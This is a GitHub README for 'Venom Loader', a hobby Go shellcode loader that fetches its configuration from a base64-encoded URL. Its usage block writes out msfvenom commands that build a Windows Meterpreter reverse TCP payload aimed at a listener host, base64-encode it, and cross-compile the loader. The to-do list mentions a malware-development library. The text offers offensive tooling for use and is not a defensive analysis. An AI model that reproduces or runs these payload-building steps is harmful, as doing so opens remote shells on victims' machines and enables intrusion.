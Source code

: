 
# Venom Loader

A tiny shellcode loader I am having fun with. It reads a JSON file from a base64 encoded URL. It works rather nicely and works mostly as advertised.




## Usage/Examples
Modify the main.go and instr file to suit your situation before doing any of the below.
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<LISTENER_IP> LPORT=<LISTENER_PORT> -f raw -o WHATEVER.bin
base64 WHATEVER.bin > WHATEVERb64.bin
export GOOS=windows;export GOARCH=amd64 #Only if compiling on linux for windows
go build
```
At this point the loader as well as a basic payload should be ready.




## To-Do

- Make a builder script that simplifys creation of the JSON and binary. #Current one is bricked. Rewrite in python.
- Remove dependancy on https://github.com/D3Ext/maldev/ to reduce built binary size.
- Come up with a better name for the damned thing.
